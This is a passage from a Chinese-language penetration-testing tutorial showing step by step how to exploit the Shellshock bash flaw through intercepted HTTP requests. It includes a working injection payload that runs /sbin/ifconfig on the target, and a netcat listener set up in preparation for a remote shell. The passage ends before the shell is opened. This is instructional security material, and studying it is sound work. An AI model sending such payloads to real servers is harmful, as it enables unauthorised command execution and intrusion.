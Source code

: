 8.  再次点击`Forward`，在`.ttf`文件的请求中，我们应该能得到`shellshcok.sh`的响应，像这样：

    ![](img/7-7-4.jpg)
    
    现在响应多了一个协议头参数，叫做`Vulnerable`。这是因为它将`echo`命令的输出集成到 HTTP 协议头中，所以我们可以进一步利用它。
    
9.  现在使用下列命令重复这个过程：

    ```
    () { :;}; echo "Vulnerable:" $(/bin/sh -c "/sbin/ifconfig")
    ```
    
    ![](img/7-7-5.jpg)
    
0.  能够在远程服务器上执行命令，对于渗透测试来说是个巨大的优势，下一步自然是获得远程 shell。在 Kali 中打开终端，监听网络端口，像这样：

    ```
    nc -vlp 12345
    ```
    
    ![](img/7-7-6.jpg)
    
